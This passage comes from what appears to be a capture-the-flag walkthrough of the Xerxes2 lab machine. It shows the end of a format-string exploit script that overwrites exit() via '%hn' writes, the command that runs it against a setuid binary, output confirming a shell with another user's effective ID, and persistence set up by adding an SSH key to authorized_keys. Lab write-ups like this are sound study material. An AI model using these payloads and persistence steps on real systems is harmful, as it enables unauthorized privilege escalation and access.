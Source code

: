 ```python


'-%69c%16$hn'       # overwrite first byte in exit()
'-%7c%17$hn'        # overwrite second byte in exit()
'-%1917c%18$hn'     # overwrite third and fourth byte in exit()
)

print buf
```

The comments should hopefully be pretty clear on what the payload is doing. I executed the exploit and got a shell: 

```text
delacroix@xerxes2:~$ (./sploit.py ; cat) | /opt/bf `python -c 'print ",>"*90'`\#
T�U�V�XXXXXXXXXXXX�@7@��@ @XXXXXXXX�@�@-                                                                    �-      -                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         
id
uid=1002(delacroix) gid=1002(delacroix) euid=1001(polito) egid=1001(polito) groups=1001(polito),1002(delacroix)
```

cat was required to keep the shell from terminating too quickly. I ran the id command which confirmed I now had EUID and EGID polito. 


### Level 2: Polito

This shell wasn't very usable, so as before, I added my SSH public key into polito's .ssh/authorized_keys file so I could SSH in and get a proper shell. Once I had logged in, I noticed three interesting files in polito's home directory:

```
polito@xerxes2:~$ ls -l
total 43932
-rw-r--r-- 1 polito polito   142564 Jul 16 10:57 audio.txt
-rw-r--r-- 1 polito polito 44813850 Jul 16 12:17 dump.gpg
-rw-r--r-- 1 polito polito    27591 Jul 16 12:19 polito.pdf
```
